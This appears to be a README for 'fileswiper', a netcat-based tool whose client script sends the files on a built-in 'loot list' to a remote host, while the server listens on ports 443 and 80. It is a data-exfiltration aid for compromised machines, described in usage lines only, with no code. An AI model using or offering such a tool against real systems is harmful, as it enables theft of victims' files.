 # fileswiper
Script to make sending files via netcat faster and more convenient.

Description:

Client Script:
Will send all files on this machine that are in the loot list in the program.
Any additional files you want to select can also be entered.

Server Script:
Will open a listener on ports 443 and 80 for each file that the client script sends.

Usage:

Server script: `./server.sh`

Client script: `./client.sh RHOST [additional files or directories]`

Screenshots:

Server
  <img src="Images/server1.jpg" width = "300"> <img src="Images/image.png" width = "300">
  
Client
  <img src="Images/client.png" width = "300">
